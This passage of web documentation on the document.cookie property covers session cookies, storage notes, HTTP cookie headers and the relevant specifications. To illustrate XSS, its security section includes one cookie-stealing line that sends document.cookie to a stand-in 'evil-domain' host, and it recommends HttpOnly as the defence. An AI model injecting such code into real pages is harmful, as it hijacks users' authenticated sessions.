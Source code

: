 Cookies are often used in web applications to identify a user and their authenticated session. Stealing a cookie from a web application leads to hijacking the authenticated user's session. Common ways to steal cookies include using [social engineering](<https://en.wikipedia.org/wiki/Social_engineering_(security)>) or by exploiting a [cross-site scripting](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) (XSS) vulnerability in the application -

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

The `HTTPOnly` cookie attribute can help to mitigate this attack by preventing access to cookie value through Javascript. Read more about [Cookies and Security](https://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Notes

- Starting with Firefox 2, a better mechanism for client-side storage is available - [WHATWG DOM Storage](../web_storage_api).
- You can delete a cookie by updating its expiration time to zero.
- Keep in mind that the more cookies you have, the more data will be transferred between the server and the client for each request. This will make each request slower. It is highly recommended for you to use [WHATWG DOM Storage](../web_storage_api) if you are going to keep "client-only" data.
- [RFC 2965](https://www.ietf.org/rfc/rfc2965.txt) (Section 5.3, "Implementation Limits") specifies that there should be **no maximum length** of a cookie's key or value size, and encourages implementations to support **arbitrarily large cookies**. Each browser's implementation maximum will necessarily be different, so consult individual browser documentation.

The reason for the [syntax](#syntax) of the `document.cookie` accessor property is due to the client-server nature of cookies, which differs from other client-client storage methods (like, for instance, [localStorage](../web_storage_api)):

#### The server tells the client to store a cookie

    HTTP/1.0 200 OK
    Content-type: text/html
    Set-Cookie: cookie_name1=cookie_value1
    Set-Cookie: cookie_name2=cookie_value2; expires=Sun, 16 Jul 3567 06:23:41 GMT

    [content of the page here]

#### The client sends back to the server its cookies previously stored

    GET /sample_page.html HTTP/1.1
    Host: www.example.org
    Cookie: cookie_name1=cookie_value1; cookie_name2=cookie_value2
    Accept: */*

## Specifications

<table><thead><tr class="header"><th>Specification</th><th>Status</th><th>Comment</th></tr></thead><tbody><tr class="odd"><td><a href="https://www.w3.org/TR/DOM-Level-2-HTML/html.html#ID-8747038">Document Object Model (DOM) Level 2 HTML Specification<br />
<span class="small">The definition of 'Document.cookie' in that specification.</span></a></td><td><span class="spec-obsolete">Obsolete</span></td><td>Initial definition</td></tr><tr class="even"><td><a href="https://tools.ietf.org/html/draft-west-cookie-prefixes-05">Cookie Prefixes</a></td><td><span class="spec-draft">Draft</span></td><td></td></tr></tbody></table>
